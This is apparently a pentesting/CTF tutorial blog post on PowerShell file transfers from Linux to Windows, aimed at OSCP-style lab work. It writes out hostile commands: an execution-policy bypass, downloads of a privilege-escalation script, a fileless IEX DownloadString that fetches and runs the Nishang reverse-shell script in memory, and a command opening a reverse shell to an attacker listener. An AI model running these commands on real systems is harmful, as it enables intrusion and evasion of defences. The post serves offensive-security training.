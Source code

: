 ```yaml
---
layout: post
title: 'File Transfers - Part 3: PowerShell File Transfers'
date: '2022-10-28 17:57:48 +0100'
categories: [Tutorial, OSCP]
tags: [linux, windows, oscp, python, file-transfer, pentesting, code, tutorial, ctf, powershell]
---
```


This is part of a series of tutorials on file transfer methods for pentesting and CTF scenarios.

_Disclaimer: It is necessary to disable any Anti-Virus (Windows Defender etc.) and also potentially any Firewalls
on the Windows system for these transfers to work. It is highly recommended to do this in a safe, virtualised environment that is not connected to any public network or the Internet. You're responsible for the security of your own systems. These tutorials are for educational purposes only._

# Linux to Windows File Transfer

In this tutorial, we will cover the use of `powershell` to transfer files from Linux to Windows.

## Scenario

- We will transfer the file to `C:\Windows\Tasks` on WINDOWS, for reasons explained in [Part 2](https://dev-0x0.github.io/posts/file-transfers-part-2/) of this tutorial series.
- Once again we will use the **Python HTTP Server** to serve the file on our LINUX system, as explained in [File Transfers: Part 1](https://dev-0x0.github.io/posts/file-transfers).

![serve-file](/assets/img/file-transfers-2/serve-file.png)

## Transferring files with Powershell.exe

Often, our initial shell on a target Windows system will be a CMD shell. 
We can attempt to switch to a PowerShell prompt with the following command:

`powershell -ep bypass`

![bypass](/assets/img/file-transfers-3/bypass.png)

The `-ep` stands for 'Execution Policy'. According to Microsoft:

> PowerShell's execution policy is a safety feature that controls the conditions under which PowerShell loads configuration files and runs scripts. This feature helps prevent the execution of malicious scripts.

And setting the Execution Policy to 'bypass' means:

> Nothing is blocked and there are no warnings or prompts.

Basically, it allows us to load PowerShell modules and execute scripts unhindered. This is usually what we want.

Learn more [here](https://learn.microsoft.com/en-us/powershell/module/microsoft.powershell.core/about/about_execution_policies?view=powershell-7.2)

### 1. Invoke-WebRequest

`Invoke-WebRequest -URI http://192.168.56.102:8000/PrivescCheck.ps1 -OutFile C:\Windows\Tasks\PrivescCheck.ps1`

---

`IWR -URI http://192.168.56.102:8000/PrivescCheck.ps1 -o C:\Windows\Tasks\PrivescCheck.ps1`

![iwr](/assets/img/file-transfers-3/iwr.png)

Both of the above commands do the same thing, with `IWR` simply being a shorthand for `Invoke-WebRequest`.
The options `-URI` and `-OutFile` here are self-explanatory. Looking through the help documents for PowerShell commands,
you will find that many commands and their options have a shorthand alternative. For instance, in the second command above we used `-o` in place of `-OutFile`. See the help info on any command with `Get-Help [PowerShell Command]`.

Another handy alias for this command is `wget`, taking its name from the well-known Linux command-line tool covered in [Part 1](https://dev-0x0.github.io/posts/file-transfers) of these tutorials.

`wget http://192.168.56.102:8000/PrivescCheck.ps1 -o C:\Windows\Tasks\PrivescCheck.ps1`

![wget](/assets/img/file-transfers-3/wget.png)

### 2. Invoke-Expression - Method 1: DownloadFile

`Invoke-Expression "(New-Object Net.WebClient).DownloadFile('http://192.168.56.102:8000/PrivescCheck.ps1', 'C:\Windows\Tasks\PrivescCheck.ps1')"`

---

`IEX "(New-Object Net.WebClient).DownloadFile('http://192.168.56.102:8000/PrivescCheck.ps1', 'C:\Windows\Tasks\PrivescCheck.ps1')"`

![iex](/assets/img/file-transfers-3/iex.png)

Both of the above commands do the same thing. This command is easy to understand, it downloads the file located at the URI in the first parameter, to the location on the target system in the second parameter. As in Method 1 above, we see that `Invoke-Expression` can be shortened to `IEX`.

`New-Object` creates a new .NET Framework or COM object.<br>
`Net.WebClient` is the type of object that is created. It provides methods for sending/receiving data given a URI.<br>
`DownloadFile` is one such method. 

### 3. Invoke-Expression - Method 2: DownloadString

This example is slightly different, in that we are able to execute a script **in memory** on the target system. The file is still transferred, but only in order to execute it and ideally leave no trace on disk.

For this example, we will be using the **Invoke-PowerShellTcp.ps1** script from the [Nishang](https://github.com/samratashok/nishang) Framework. This script
enables us to execute a reverse or bind shell on the target. We will be using the reverse shell functionality.

We are going to execute this command from a CMD shell, as doing so will allow us to automatically execute the script
on the target.

`powershell IEX "(New-Object Net.WebClient).DownloadString('http://192.168.56.102:8000/Invoke-PowerShellTcp.ps1')"`

The command is similar to `DownloadFile`. However, we note the lack of a destination download location.

The **caveat** with this method is that you must include the execution command in the file itself.
For instance, a conventional scenario would be to import a powershell module from the prompt:

`. .\Invoke-PowerShellTcp.ps1`

We would then execute the reverse shell command like so:

`Invoke-PowerShellTcp -Reverse -IPAddress 192.168.254.226 -Port 4444`

However, when using `DownloadString`, we must include this command at the end of the file for it to execute, since we are never storing it to disk. We are simply using **Invoke-PowerShellTcp.ps1** as our example here. The script could be anything really.

We therefore append the command(whatever the appropriate command for the file we are transferring) to the bottom of the file prior to transfer:

![edit-file](/assets/img/file-transfers-3/edit-file.png)

Now we can transfer the file, and have it executed immediately. We will as usual serve the file with the **Python HTTP Server**, then start a **Netcat** listener on our attacking machine, and execute the PowerShell command on the target Windows system.

Executing our Powershell command
![downloadString](/assets/img/file-transfers-3/psh-iex.png)

Here we see the GET request made by PowerShell, and we catch the reverse shell
![reverse-shell](/assets/img/file-transfers-3/reverse-shell.png)


### Executing PowerShell Commands From a CMD prompt

`cmd /C powershell IWR -uri http://192.168.56.102:8000/PrivescCheck.ps1 -o C:\Windows\Tasks\PrivescCheck.ps1`

As we saw from the example above, from a CMD prompt, we can execute `powershell` commands. Another way to do this is using `cmd` with the `/C` option. The `/C` meaning 'Command' to execute. More info on this can be found by looking at the help section for `cmd.exe` with `cmd /?`.

Any of the PowerShell commands above can be executed in this manner.

## Conclusion

PowerShell presents a multitude of options for transferring and executing files. It's well worth getting comfortable with PowerShell, as it's a great addition to your personal toolkit. Hope you got something out of this tutorial. Thanks for reading!